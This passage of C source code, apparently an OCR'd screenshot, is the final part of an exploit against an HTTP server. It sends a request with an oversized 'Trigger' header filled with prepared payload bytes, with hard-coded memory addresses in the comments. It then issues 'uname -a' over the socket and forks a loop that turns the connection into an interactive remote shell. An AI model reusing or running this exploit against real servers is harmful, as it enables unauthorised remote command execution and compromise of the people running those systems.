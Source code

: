 // x/1024s 0xa9eb0000
//        0xa9ebb81c
// in:    0xa9ebd81c
// start: 0xa9e8d018
//  memset(triggerData+2, 0x41, 254);
 
  requestData=(char*)malloc(1<<16);
  memset(requestData, 0, 1<<16);
  requestLength+=sprintf(requestData, "GET /x.txt HTTP/1.1\r\nHost: localhost\r\nConnection: Keep-Alive\r\n\r\n");
  result=sendFull(socketFd, requestData, requestLength);
  usleep(30000);
 
  requestLength=0;
  requestLength+=sprintf(requestData, "GET /x.txt HTTP/1.1\r\nHost: localhost\r\nConnection: Keep-Alive\r\n");
 
  requestLength+=sprintf(requestData+requestLength, "Trigger: ");
  triggerOffset=requestLength;
  memcpy(requestData+requestLength, triggerData, 256);
  requestLength+=256;
  requestLength+=sprintf(requestData+requestLength, "\r\n");
 
  requestLength+=sprintf(requestData+requestLength, "\r\n");
 
  result=sendFull(socketFd, requestData, requestLength);
 
  if(result) {
    fprintf(stderr, "Write failed, len %d\n", result);
  } else {
    sendFull(socketFd, "echo; uname -a; echo;\n", 40);
// Select would be better ...
    result=fork();
    if(result) {
      while((result=read(0, buffer, sizeof(buffer)))>0) {
        if(result>0) write(socketFd, buffer, result);
      }
    } else {
      while((result=read(socketFd, buffer, sizeof(buffer)))>0) {
        if(result>0) write(1, buffer, result);
      }
    }
  }
 
  fprintf(stderr, "Completed\n");
}



